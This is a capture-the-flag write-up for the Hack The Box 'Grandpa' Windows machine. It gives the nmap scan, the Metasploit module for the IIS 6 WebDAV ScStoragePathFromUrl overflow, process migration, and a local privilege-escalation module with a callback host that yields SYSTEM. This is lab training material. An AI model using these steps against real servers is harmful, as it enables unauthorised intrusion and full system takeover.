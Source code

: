 # Hack the box - Grandpa

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/windows.png"> </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.14</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Apr 17</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.14
```

![Nmap results](./nmap.png)

There ISS 6 web server running on this machine.

## Web exploration

When we go to index page, we can identify that there is ISS web server running.

![Index page](index_page.png)

## Exploitation

Since this is old machine IIS exploit could be on metasploit

```
msfconsole
search iis
```

![Metasploit search](vuln_search_metasploit.png)

Comparing previous nmap scan we quickly notify webdav overflow:

```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set rhosts 10.10.10.14
run
```

![Exploitation](exploitation.png)

We got a shell access.

## Privilege escalation

When we try to identify user this happens:

![Get user fail](whoami_fail.png)

We can migrate to other process:

```
ps
migrate 1008
```

![Process migration](ps.png)

Time to explore potential privilege escalation exploits:

```
background
use post/multi/recon/local_exploit_suggester
set session 1
run
```

![Privilege escalation scan](priv_esc_scan.png)

Machine is potentialy vulnerable to many exploits. Let's try last one:

```
use exploit/windows/local/ppr_flatten_rec
set session 1
set lhost 10.10.x.x
run
```

![Privilege escalation](priv_esc.png)

We are the system user!

## Capturing the flags

Time to finish this challenge:

![Flags capture](flags_capture.png)